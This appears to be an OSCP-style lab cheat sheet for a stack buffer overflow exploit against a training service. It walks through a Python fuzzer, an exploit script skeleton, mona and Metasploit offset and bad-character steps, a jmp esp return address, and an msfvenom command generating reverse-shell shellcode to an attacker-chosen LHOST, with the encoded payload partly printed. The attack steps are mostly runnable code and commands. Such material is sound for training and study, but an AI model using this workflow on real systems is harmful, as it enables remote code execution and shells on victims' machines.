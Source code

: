 # BufferOverflow

## Registers

## nasm

Get opcode: 

```console
$ locate nasm_shell.rb

$ /usr/shares/metasploit-framework/tools/exploit/nasm_shell.rb
>>> jmp esp
00000000  FFE4		jmp esp
```

## Mona

```console
Set up working directory:
!mona config -set workingfolder c:\mona\%p

Find offset:
!mona findmsp -distance 600
- distance lenght of payload

Create bytearray:
!mona bytearray -b "\x00"
-b "bad chars"

Compare bytearray with bytes in stack
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

Find jump esp
!mona jmp -r esp -cpb "<all bad chars>"
```


## Fuzzing

Make note of the largest number of bytes

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication and Controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Create a cyclic pattern 400 bytes longer than the crash bytes 

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

```

Copy that string to **payload**
Run the python script and crash binary again.
Check the EIP offset:

	- with mona `!mona findmsp -distance 600`
	or
	- with metasploit `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP adress>`

Set the offset in python script and change payload to "" and change `retn` to `BBBB`
Crash the server again, the EIP register should now show 4 B's -> `42424242`

## Finding bad chars

Generate a bytearray using mona (excluding \x00): `!mona bytearray -b "\x00"`

Now generate a string which is identical to the bytearray with python (excluding \x00)

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update exploit script **payload** with string generated from the above python script.
Crash binary again and check with mona for bad chars: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`

Check one after one. 
Generate a new byte array with mona e.g. `!mona bytearray -b "\x00\xa2` and remove "\xa2" from payload.
Crash binary again and compare the bytearray with esp address till message `Unmodified` appears.

## Finding jmp point

Run mona `!mona jmp -r esp -cpb "<all bad chars>"`
Choose an address and update exploit.py with the address at var `retn`
Address must be backwards! (little endian)
e.g. \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit

## Generate payload

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c
```

Copy generated C string without semicolon to exploit.py under payload

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

## Exploit

Run crash again to get a reverse shell

Opt:
Set breakpoint to jmp point address and go steps further to watch NOPs and decoding the payload.
